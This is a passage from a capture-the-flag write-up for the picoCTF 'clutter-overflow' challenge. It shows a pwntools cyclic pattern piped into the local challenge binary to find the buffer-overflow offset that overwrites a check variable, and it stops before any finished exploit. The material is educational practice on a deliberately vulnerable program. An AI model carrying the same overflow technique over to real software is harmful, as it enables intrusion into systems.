 Let's create a string that is a bit longer than `0x100` (that is decimal 256)
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Binary_Exploitation/clutter-overflow]
└─$ ~/python_venvs/pwntools/bin/cyclic -h
usage: pwn cyclic [-h] [-a alphabet] [-n length] [-c context] [-l lookup_value | count]

Cyclic pattern creator/finder

positional arguments:
  count                 Number of characters to print

options:
  -h, --help            show this help message and exit
  -a alphabet, --alphabet alphabet
                        The alphabet to use in the cyclic pattern (defaults to all lower case letters)
  -n length, --length length
                        Size of the unique subsequences (defaults to 4).
  -c context, --context context
                        The os/architecture/endianness/bits the shellcode will run in (default: linux/i386), choose from: ['16', '32', '64', 'android', 'baremetal', 'cgc', 'freebsd', 'linux',
                        'windows', 'powerpc64', 'aarch64', 'powerpc', 'sparc64', 'mips64', 'msp430', 'alpha', 'amd64', 'riscv', 'sparc', 'thumb', 'cris', 'i386', 'ia64', 'm68k', 'mips', 's390',
                        'none', 'avr', 'arm', 'vax', 'little', 'big', 'be', 'eb', 'le', 'el']
  -l lookup_value, -o lookup_value, --offset lookup_value, --lookup lookup_value
                        Do a lookup instead printing the alphabet

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Binary_Exploitation/clutter-overflow]
└─$ ~/python_venvs/pwntools/bin/cyclic 300   
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Binary_Exploitation/clutter-overflow]
└─$ ~/python_venvs/pwntools/bin/cyclic 300 > pattern_300.txt
```

Then we try it out locally
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Binary_Exploitation/clutter-overflow]
└─$ cat pattern_300.txt| ./chall           
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0x6361617263616171
code != 0xdeadbeef :(
```